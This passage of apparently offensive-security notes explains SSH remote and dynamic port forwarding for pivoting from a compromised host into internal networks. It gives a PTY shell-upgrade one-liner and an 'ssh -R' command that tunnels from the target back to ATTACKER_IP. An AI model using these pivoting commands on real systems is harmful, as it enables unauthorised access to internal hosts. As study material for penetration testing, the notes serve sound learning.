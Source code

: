 ```
target@hacked:~$ python3 -c 'import pty; pty.spawn("/bin/bash")'
target@hacked:~$ ssh -N -R 127.0.0.1:<SSHPORT>:<TARGET_IP>:<RPORT> <USER>@<ATTACKER_IP>

/** Notes
 * -N used to prevent shell from being opened
 * -R for remote port forwarding according to input arg
 * With example above: 0.0.0.0 = MID01 (all interfaces), TARGET_IP = SERVER01, ATTACKER_IP = ATTACKER, USER = link
 * <SSHPORT> can be any free port on loopback interface
 */
```

Then to use port forward, send traffic from ATTACKER to local interface e.g.

```
link@kali:~$ psql -h 127.0.0.1 -p <SSHPORT> -U <USER>
```

### SSH Remote Dynamic Port Forwarding

```
+------------------------------------------------------------------------------------+
|    +<<<<<<<+              WAN | DMZ           DMZ | INT                            |
|    V       ^                  |        +---???    |                                |
|    V       ^     < < < < <    |        |          |                                |
|    V   ATTACKER-------------MID01------+------SECRET01-------------FINAL01         |
|    V       ^       (ssh)      |        |          |                                |
|    V       ^                  |        +---???    |                                |
|    +>>>>>>>+                  |                   |                                |
+------------------------------------------------------------------------------------+
```

Same use case as above, but for dynamic connection capability.

This will set up a port forward such that
- *FROM* ATTACKER we can connect
- *TO* SECRET01 *OR* ??? on <u>any dynamic</u> \<RPORT\>
- *VIA* SSH tunnel between client ATTACKER listening on \<LPORT\> connecting to server also ATTACKER on \<SSHPORT\> which will then forward to \<RPORT\> on SECRET01/???/???/...

PRE-REQUISITE:
- Make sure you have TTY functionality with your shell on perimeter target machine such as MID01. E.g., try
    - `python3 -c 'import pty; pty.spawn("/bin/bash")'`
    - `python3 -c 'import pty; pty.spawn("/bin/sh")'`

COMMANDS

From ATTACKER

```
// START SSH SERVER
link@kali:~$ sudo systemctl start ssh
link@kali:~$ sudo ss -ntplu
```
